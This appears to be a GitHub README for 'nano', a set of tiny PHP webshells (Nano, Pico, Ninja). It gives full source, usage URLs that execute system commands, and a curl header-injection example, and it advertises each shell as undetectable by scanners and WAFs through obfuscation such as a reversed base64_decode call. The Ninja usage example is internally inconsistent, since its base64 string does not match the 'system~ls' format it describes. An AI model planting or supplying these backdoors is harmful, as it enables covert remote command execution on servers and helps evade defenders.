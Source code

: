 # nano
Nano is a family of PHP webshells which are code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

**Note:** You may need to tweak some parts of the code if it doesn't work out for your.\
For example, if short tags are disabled, you will need to replace <? with <?php.

### Nano
```php
<?$x=$_GET;@$x[p]=='_'?@$x[f]($x[c]):1;
```
#### Features
- 39 bytes in size
- Can't be detected by static code scanners
- Supports authentication
- No warnings on this fork version!

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Pico
```php
<?$x=$_GET;@$x[f]($x[c]);
```
#### Features
- 25 bytes in size
- Can't be detected by static code scanners
- No warnings on server logs!

#### Usage
`http://example.com/nano.php?f=function&c=command`

`f` is for function\
`c` is for command

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls`

### Ninja
```php
<?$x=explode('~',strrev('edoced_46esab')(getallheaders()['x']));@$x[0]($x[1]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Notes
- The version that calls `base64_decode` directly isnt great because its blacklisted on many wafs\
So i changed that for a reverse call to create the base64 decode call or rot13.\
- The substract string call was removed because it wasnt adding any special obfucation on the base64.

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so write it as `system~ls` and then base64 encode it i.e. `c3lzdGVtKGxzKQ==`\
Now open your terminal and type the following command\
`curl -H 'x: c3lzdGVtKGxzKQ==' http://example.com/backdoored.php`\
~~Too much work? You can use the [handler](https://github.com/UltimateHackers/nano/blob/master/handler.py) instead.~~
The handler needs some redesigning which is not that important right now. 

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
The nano project is licensed under **MIT license**.
Original Creator : https://github.com/UltimateHackers/nano
